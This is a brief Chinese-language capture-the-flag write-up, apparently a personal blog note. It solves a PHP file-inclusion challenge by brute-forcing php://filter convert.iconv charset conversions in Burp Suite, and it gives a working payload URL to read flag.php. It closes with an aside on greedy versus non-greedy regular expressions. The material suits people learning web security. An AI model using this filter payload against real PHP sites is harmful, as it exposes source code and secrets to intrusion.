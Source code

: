 感觉答来答去还是这些题目（这个4分的题目和那个1分的题目有什么区别)

直接用php://filter中的convert.iconv来爆破转化

payload如下：

http://61.147.171.105:57078/?filename=php://filter/convert.iconv.UTF-7.UCS-4*/resource=flag.php

把所有php支持的字符放进bp里面去爆破就可以了

这里补充几个知识点

使用`（别名：.*）`作为正则表达式模式将匹配整个文本，而不仅仅是第一个别名。这是因为`.*`会尽可能多地匹配字符，直到遇到最后一个别名。

为了避免贪婪匹配，我们使用非贪婪量词`?`，即`.*?`。它告诉正则表达式引擎尽可能少地匹配字符。在我们的示例中，它将匹配到第一个别名的结束括号之前，从而确保我们只匹配到一个别名。

感觉正则表达式学的不太好（xs）

然后放bp里面爆破就行了，可以先单爆破（比较快）